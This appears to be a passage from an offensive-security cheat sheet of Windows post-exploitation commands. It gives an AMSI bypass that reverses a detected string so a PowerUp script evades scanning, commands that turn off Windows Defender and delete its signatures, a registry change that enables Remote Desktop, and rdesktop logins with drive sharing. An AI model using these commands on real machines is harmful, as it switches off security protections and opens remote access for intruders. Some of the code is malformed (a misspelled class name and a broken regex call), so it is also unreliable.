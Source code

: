 ```powershell
# Use AMSITrigger to find malicious lines in a script:
# amsitrigger64.exe -i PowerUp.ps1
# Result is: $AppDomain = [Reflection.Assembly].Assembly.GetType("Sytem.AppDomain").GetProperty('CurrentDomain').GetValue($null,@())
# The problem here is the "System.AppDomain" string which gets detected
# Use a reverse function to bypass like this:
$String = 'niamoDppA.metsyS'
$classrev= ([regex]::Matches($String.'RightToLeft') |  ForEach {$_.value}) -join ''
$AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null,@())
```

# Windows Defender

### Disable Windows Defender
```powershell
# Turn Off
Set-MpPreference -DisableRealtimeMonitoring $true
```
### Disable Windows Defender and delete signatures
```powershell
# Turn Off
"c:\Program Files\Windows Defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```
**Example:**

![Main Logo](images/Example_Defender01.PNG 'ExampleDefender')

# Remote Desktop

### Enable Remote Desktop
```powershell
# Turn On
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

### Login with remote desktop
```bash
# Login
rdesktop 172.16.20.20 -d corporate -u username -p password
```

### Login with remote desktop with folder sharing 
```bash
# Login
rdesktop 172.16.20.20 -d corporate -u username -p password -r disk:sharename=//home/username/Desktop/Tools
```
